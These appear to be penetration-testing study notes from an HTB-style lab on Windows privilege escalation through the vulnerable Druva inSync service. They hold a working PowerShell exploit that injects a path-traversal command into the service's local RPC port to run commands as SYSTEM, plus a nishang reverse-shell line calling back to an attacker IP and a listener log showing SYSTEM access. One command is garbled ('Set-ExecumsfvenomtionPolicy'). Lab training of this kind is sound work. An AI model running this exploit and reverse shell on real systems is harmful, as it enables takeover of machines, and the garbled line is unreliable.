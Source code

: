 We may be able to escalate privileges on well-patched and well-configured systems if users are permitted to install software or vulnerable third-party applications/services are used throughout the organization. It is common to encounter a multitude of different applications and services on Windows workstations during our assessments.
Some services/applications may allow us to escalate to SYSTEM. In contrast, others could cause a denial-of-service condition or allow access to sensitive data such as configuration files containing passwords.

---

#### Enumerating Installed Programs

```cmd-session
> wmic product get name
```
![](Pasted%20image%2020250322030701.png)
the `Druva inSync` application stands out. A quick Google search shows that version `6.6.3` is vulnerable to a command injection attack via an exposed RPC service. We may be able to use [this](https://www.exploit-db.com/exploits/49211) exploit PoC to escalate our privileges. From this [blog post](https://www.matteomalvica.com/blog/2020/05/21/lpe-path-traversal/) which details the initial discovery of the flaw, we can see that Druva inSync is an application used for “Integrated backup, eDiscovery, and compliance monitoring,” and the client application runs a service in the context of the powerful `NT AUTHORITY\SYSTEM` account. Escalation is possible by interacting with a service running locally on port 6064.
after researching the program, you find service running on specific port, look for the port
```cmd-session
netstat -ano | findstr 6064
```

`mapping the process id to name`
```powershell-session
get-process -Id 3324
```

one last check using the `Get-Service` cmdlet.

```powershell-session
PS C:\htb> get-service | ? {$_.DisplayName -like 'Druva*'}
```

## Druva inSync Windows Client Local Privilege Escalation Example
Let's try this with [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Download the script to our attack box, and rename it something simple like `shell.ps1`. Open the file, and append the following at the bottom of the script file (changing the IP to match our address and listening port as well):

Vulnerable Services

```shell-session
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 9443
```
```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

Feel free to modify the `PoC` as needed. In this example, I've configured it to send a reverse shell. Since it runs with SYSTEM privileges, the reverse shell provides us with a SYSTEM-level shell.

Modify execution policy first:
`Set-ExecumsfvenomtionPolicy Bypass -Scope Process`

```
$cmd = powershell -ExecutionPolicy Bypass -File "C:\Users\JohnDoe\Desktop\script.ps1"
```

```shell-session
nc -lvnp 9443

listening on [any] 9443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.7] 58611
Windows PowerShell running as user WINLPE-WS01$ on WINLPE-WS01
Copyright (C) 2015 Microsoft Corporation. All rights reserved.


PS C:\WINDOWS\system32>whoami

nt authority\system

```